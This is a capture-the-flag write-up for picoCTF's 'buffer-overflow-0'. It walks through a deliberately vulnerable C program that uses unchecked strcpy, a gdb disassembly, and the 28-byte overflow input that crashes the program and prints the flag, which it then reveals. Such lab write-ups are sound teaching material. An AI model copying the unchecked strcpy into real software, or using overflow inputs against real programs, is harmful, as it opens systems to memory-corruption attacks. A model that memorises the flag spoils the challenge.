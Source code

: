 # buffer-overflow-0 (pwn, 150pts)

> Let's start off simple, can you overflow the right buffer in this [program](./assets/vuln) to get the flag?

You're given the binary and the following C code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

Running the binary (after creating `flag.txt`), we see that the program simply outputs the first argument:

```
$ echo "picoCTF{flag}" > flag.txt
$ ./vuln test
Thanks! Received: test
```

Looking into the C code, we can see that when a segmentation fault occurs, the `sigsegv_handler` function is executed
`signal(SIGSEGV, sigsegv_handler);`, which will output the flag.  We therefore need to cause a segfault in order to get
the flag.

The only user input the program uses is the first command line argument passed to the program (`argv[1]`), which it
copies into a 16-character buffer `buf[16]`.  [`strcpy`](http://www.cplusplus.com/reference/cstring/strcpy/) doesn't do
any bounds checks, so if we pass in more than 16 characters, we'll be overriding memory that we shouldn't have access
to.

When we enter the `vuln` function and allocate space for the 16-byte char array, the stack looks like this (addresses
simplified):

```
0x0000000 start of space allocated for the "buf" char array
0x0000004 
0x0000008 
0x000000c 
0x0000010 
0x0000014 end of space allocated for the "buf" char array
0x0000018 saved base pointer (ebp)
0x000001c return address
```

Note that 24 bytes is allocated for the array because space for a null byte is needed to indicate the end of the
array and we're working with 32-bit addresses.  You can confirm by using [`gdb`](https://www.gnu.org/software/gdb/) to
disassemble the `vuln` function:

```
gef➤  disassemble vuln
Dump of assembler code for function vuln:
   0x08048667 <+0>:	push   ebp
   0x08048668 <+1>:	mov    ebp,esp
   0x0804866a <+3>:	sub    esp,0x18 # space allocated for char array
   0x0804866d <+6>:	sub    esp,0x8
   0x08048670 <+9>:	push   DWORD PTR [ebp+0x8]
   0x08048673 <+12>:	lea    eax,[ebp-0x18]
   0x08048676 <+15>:	push   eax
   0x08048677 <+16>:	call   0x80484b0 <strcpy@plt>
   0x0804867c <+21>:	add    esp,0x10
   0x0804867f <+24>:	nop
   0x08048680 <+25>:	leave  
   0x08048681 <+26>:	ret    
End of assembler dump.
```

We therefore need to pass in at least 24 characters to the program to overwrite memory and hopefully trigger a
segmentation fault.  We can do this easily by leveraging Python:

```
$ ./vuln $(python2 -c "print 'A'*24")
Segmentation fault (core dumped)
```

Interestingly, this didn't cause the segfault handler to execute.  Try overwriting the return address by adding another
4 characters:

```
$ ./vuln $(python2 -c "print 'A'*28")
picoCTF{flag}
```

We can now run the same command on the server to retrieve the real flag:

```
$ ./vuln $(python2 -c "print 'A'*28")
picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}
```
